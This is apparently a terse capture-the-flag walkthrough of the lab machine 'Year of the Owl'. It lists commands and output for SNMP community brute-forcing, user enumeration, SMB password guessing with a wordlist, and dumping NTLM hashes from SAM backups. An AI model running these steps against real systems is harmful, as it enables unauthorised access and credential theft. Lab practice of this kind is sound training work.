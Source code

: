 Disclosure

# Year of the Owl

# Reconn

onesixtyone  10.10.2.33 -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt 

Scanning 1 hosts, 3219 communities
10.10.2.33 [openview] Hardware: Intel64 Family 6 Model 63 Stepping 2 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)

snmpwalk -c openview -v1 10.10.2.33 1.3.6.1.4.1.77.1.2.25

└─# snmpwalk -c openview -v1 10.10.2.33 1.3.6.1.4.1.77.1.2.25
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
iso.3.6.1.4.1.77.1.2.25.1.1.6.74.97.114.101.116.104 = STRING: "Jareth"
iso.3.6.1.4.1.77.1.2.25.1.1.13.65.100.109.105.110.105.115.116.114.97.116.111.114 = STRING: "Administrator"
iso.3.6.1.4.1.77.1.2.25.1.1.14.68.101.102.97.117.108.116.65.99.99.111.117.110.116 = STRING: "DefaultAccount"
iso.3.6.1.4.1.77.1.2.25.1.1.18.87.68.65.71.85.116.105.108.105.116.121.65.99.99.111.117.110.116 = STRING: "WDAGUtilityAccount"

─# crackmapexec smb 10.10.127.203 -u Jareth -p /opt/rockyou.txt


SMB         10.10.127.203   445    YEAR-OF-THE-OWL  [+] year-of-the-owl\Jareth:sarah 


Found in Recycle.bin 
sam.bak
system.bak

─# impacket-secretsdump  -sam sam.bak -system system.bak -ts local

Administrator:500:aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:39a21b273f0cfd3d1541695564b4511b:::
Jareth:1001:aad3b435b51404eeaad3b435b51404ee:5a6103a83d2a94be8fd17161dfd4555a:::

